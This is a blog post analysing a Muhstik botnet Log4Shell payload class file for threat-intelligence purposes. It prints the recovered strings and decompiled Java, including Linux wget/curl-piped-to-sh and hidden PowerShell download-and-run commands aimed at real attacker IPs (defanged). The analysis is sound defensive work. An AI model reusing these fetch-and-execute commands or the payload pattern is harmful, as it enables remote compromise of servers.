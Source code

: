 ```yaml
---
layout: post
title: "Analyzing a Log4jShell Exploit from Muhstik"
date: 2021-12-02
categories: log4jshell malware java powershell muhstik
permalink: /analyzing-log4jshell-muhstik/
---
```


In this post I set out to analyze a simple chunk of Log4jShell exploit code to see how it works.

## Finding the Exploit

I wasn't running a honeypot or anything, I just figured I could rustle around VirusTotal and find one using this search:

`tag:java-bytecode positives:1+`

Out of the files I saw, I ended up settling on this simple one:

[https://www.virustotal.com/gui/file/2b5f04d15e459132a5935260746788db39b469ea46859c4a5bb8625f8a80bd41](https://www.virustotal.com/gui/file/2b5f04d15e459132a5935260746788db39b469ea46859c4a5bb8625f8a80bd41)

## Triaging for Indicators

If you're working an incident it helps to have some indicators you can feed over to the rest of your team to identify behaviors or other data. One of the easiest ways to find low-hanging indicators in malware is using the `strings` command.

```
remnux@remnux:~/cases/muhstik$ strings Exploit.class 

<init>
Code
LineNumberTable
<clinit>
StackMapTable
SourceFile
Exploit.java
java/lang/String
	/bin/bash
S(wget -qO - hxxp://18.228.7[.]109/.log/log || curl hxxp://18.228.7[.]109/.log/log) | sh
os.name
powershell
hidden
(new-object System.Net.WebClient).Downloadfile('hxxp://172.105.241[.]146:80/wp-content/themes/twentysixteen/s.cmd', 's.cmd');start-process s.cmd
java/lang/Exception
com/knal/muhstik/Exploit
java/lang/Object
[Ljava/lang/String;
java/lang/System
getProperty
&(Ljava/lang/String;)Ljava/lang/String;
toLowerCase
()Ljava/lang/String;
startsWith
(Ljava/lang/String;)Z
java/lang/Runtime
getRuntime
()Ljava/lang/Runtime;
exec
(([Ljava/lang/String;)Ljava/lang/Process;
java/lang/Process
waitFor
Ljava/io/PrintStream;
toString
java/io/PrintStream
println
(Ljava/lang/String;)V
```

Keep in mind that `strings` doesn't grab Unicode characters by default, so you'll need to run a second pass using `strings -eL`. In this case, I found no additional strings.

Useful indicators from this threat include:

- `hxxp://18.228.7[.]109/.log/log`
- `hxxp://172.105.241[.]146:80/wp-content/themes/twentysixteen/s.cmd`
- `com/knal/muhstik/Exploit`

The last string proves useful to find intelligence overlaps. The Muhstik botnet has used the strings `knal` and `muhstik` in parts of its exploitation [in the past](https://sysdig.com/blog/muhstik-malware-botnet-analysis/).

## Reversing to Java Source

Reversing the Java bytecode in a class file back to source is relatively easy, and I recommend using [JD-GUI](http://java-decompiler.github.io/) for the job. Pretty much all of the work is done for you (assuming the code isn't obfuscated) and you'll get a clean view of the code.

![JD-GUI Code Decompiler](/assets/images/analyzing-log4jshell-muhstik/muhstik-re-1.png)

This code is a simple example of cross-platform exploit code.

```java
String[] arrayOfString = { "/bin/bash", "-c", "(wget -qO - hxxp://18.228.7[.]109/.log/log || curl hxxp://18.228.7[.]109/.log/log) | sh" };

if (System.getProperty("os.name").toLowerCase().startsWith("win"))
	arrayOfString = new String[] { "powershell", "-w", "hidden", "-c", "(new-object System.Net.WebClient).Downloadfile('hxxp://172.105.241[.]146:80/wp-content/themes/twentysixteen/s.cmd', 's.cmd');start-process s.cmd" }; 

Runtime runtime = Runtime.getRuntime();
Process process = runtime.exec(arrayOfString);
process.waitFor();
```

The code uses [`System.getProperty()`](https://docs.oracle.com/javase/tutorial/essential/environment/sysprop.html) to determine if the server is running Windows or not. If it is, the code executes PowerShell with commands to [download](https://docs.microsoft.com/en-us/dotnet/api/system.net.webclient.downloadfile?view=net-6.0) `s.cmd` and then [execute](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.management/start-process?view=powershell-7.2) it. If the server isn't running Windows, the code executes `curl` and/or `wget` commands depending on what is available on the exploited system.

The actual shell commands are kicked off by [`Runtime.exec`](https://docs.oracle.com/javase/7/docs/api/java/lang/Runtime.html) and then the code waits for the commands to complete.